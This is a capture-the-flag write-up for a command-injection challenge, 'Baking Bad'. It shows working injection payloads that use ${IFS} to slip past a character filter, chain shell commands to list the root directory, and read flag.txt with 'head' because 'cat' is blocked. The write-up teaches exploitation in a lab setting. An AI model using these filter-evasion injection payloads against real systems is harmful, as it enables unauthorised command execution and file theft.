

# Baking Bad

```text
This new kid on the block, Bake'n'berg, has taken over the market with some new dough that has 99.2% purity. Ours is not even 60%!

Our bakers have been trying to come up with a new P2P-recipe trying all sorts of weird ingredients to raise the purity, but it's so costly this way.

Luckily, the developers at Brunnerne have come up with a bash -c 'recipe' that can simulate the baking process. This way we can test ingredients in a simulator to find ingredients that result in a higher purity - without wasting any ressources.
```

From the description, it is clear that this is a Command Injection problem



Going to `/quality.sh`:

```shell
#!/bin/sh
ingredient="$1"
[ -z "$ingredient" ] && { echo "No ingredient!"; exit 1; }

purity=$(awk -v s="$RANDOM" 'BEGIN{srand(s);printf "%.1f",80+20*rand()}')
echo "Ingredient: $ingredient"
echo "Purity: $purity%"
```

After a few tries, we get to know that `space`, `/`, `\` are *Illegal characters*

`space` can be replaced by `${IFS}`

```shell
sugar;cd${IFS}..;cd${IFS}..;cd${IFS}..;ls
Ingredient: sugar
Purity: 93.5%
bin
boot
dev
etc
flag.txt
home
lib
lib.usr-is-merged
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

Yay flag.txt!
But `cat` is an *Illegal command*, so we use `head`

```shell
sugar;cd${IFS}..;cd${IFS}..;cd${IFS}..;head${IFS}flag.txt
Ingredient: sugar
Purity: 83.1%
brunner{d1d_1_f0rg37_70_b4n_s0m3_ch4rz?}
```
